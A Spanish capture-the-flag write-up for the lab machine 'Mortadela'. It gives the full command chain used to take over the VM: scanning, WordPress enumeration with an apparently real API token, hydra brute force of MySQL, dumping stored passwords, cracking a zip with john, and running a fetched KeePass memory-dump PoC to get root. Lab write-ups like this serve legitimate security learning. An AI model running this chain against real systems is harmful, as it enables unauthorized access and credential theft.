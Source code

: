 ```yaml
---
layout: post
title: "Mortadela"
date: 2024-06-06 18:10:23
category: sample
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Mortadela </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/mortadela/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Mortadela/host.png){:.margin}

**1\.** Identifico el host en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Mortadela/arp.png){:.margin}

**2\.** Escaneo puertos y servicios activos en la maquina.

`sudo nmap -p- --open -n -Pn -T5 -sCV --min-rate=5000 192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/nmap.png){:.margin}

**3\.** En la web tenemos la pagina default de Apache.

`http://192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/80.png){:.margin}

**4\.** Fuzzing de directorios y ficheros en la web.

`gobuster dir -u http://192.168.1.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,html`

![img](/notas/public/img/thehackerlabs/Mortadela/gobuster.png){:.margin}

**5\.** Tenemos un wordpress pero con algun problemita, intenta cargar internamente recursos de otra ip; hago resolucion de ip con una regla de iptable.

`sudo iptables -t nat -A OUTPUT -d 192.168.0.108 -j DNAT --to-destination 192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/80code.png){:.margin}
![img](/notas/public/img/thehackerlabs/Mortadela/80ok.png){:.margin}

**6\.** Escaneo fallos en la web wordpress, encuentro poco mas de un usuario.

`wpscan --url http://192.168.1.3/wordpress/ --api-token="ikrj65a1YQMVwLNmjpYaWNM0dJcHjgsBracjFNRr2OI" -e`

![img](/notas/public/img/thehackerlabs/Mortadela/wpscan.png){:.margin}

**7\.** Luego de intentar mucho opte por hacer fuerza bruta al mysql con el usuario root.

`hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/hydra.png){:.margin}

**8\.** Investigando en las bases de datos mysql.

_\- Inicio en mysql_

`mysql -u root -h 192.168.1.3 -pcassandra`

![img](/notas/public/img/thehackerlabs/Mortadela/mysql.png){:.margin}

_\- Encuentro la contraseña del usuario mortadela_

`show databases;`

`use confidencial;`

`show tables;`

`select * from usuarios;`

![img](/notas/public/img/thehackerlabs/Mortadela/mortadelapass.png){:.margin}

**9\.** Accedo por ssh como usuario mortadela.

`ssh mortadela@192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/sshmortadela.png){:.margin}

**10\.** Encuentro un zip que contiene archivos de keepass, pero necesito una contraseña para descomprimir.

`ls /opt`

`unzip -l /opt/muyconfidencial.zip`

`unzip /opt/muyconfidencial.zip`

![img](/notas/public/img/thehackerlabs/Mortadela/unzip.png){:.margin}

**11\.** Me descargo el comprimido a mi maquina local.

`scp -r mortadela@192.168.1.3:/opt/muyconfidencial.zip .`

![img](/notas/public/img/thehackerlabs/Mortadela/scp.png){:.margin}

**12\.** Crackeando la contraseña del comprimido.

`zip2john muyconfidencial.zip > hash`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash`

![img](/notas/public/img/thehackerlabs/Mortadela/john.png){:.margin}

_\- Descomprimiendo_

`unzip muyconfidencial.zip`

![img](/notas/public/img/thehackerlabs/Mortadela/unzipok.png){:.margin}

**13\.** Extraigo informacion del archivo volcado de keepass, me da posibles contraseñas y un caracter faltante al inicio.

`wget https://raw.githubusercontent.com/matro7sh/keepass-dump-masterkey/main/poc.py -q`

`python3 poc.py KeePass.DMP`

![img](/notas/public/img/thehackerlabs/Mortadela/dump.png){:.margin}

**14\.** Abrimos el database con keepass.

_\- Luego de varios intentos doy con la contraseña correcta_

![img](/notas/public/img/thehackerlabs/Mortadela/keepass.png){:.margin}

_\- Tengo las credenciales de root_

![img](/notas/public/img/thehackerlabs/Mortadela/keepassroot.png){:.margin}

**15\.** Obteniendo superusuario.

`ssh root@192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>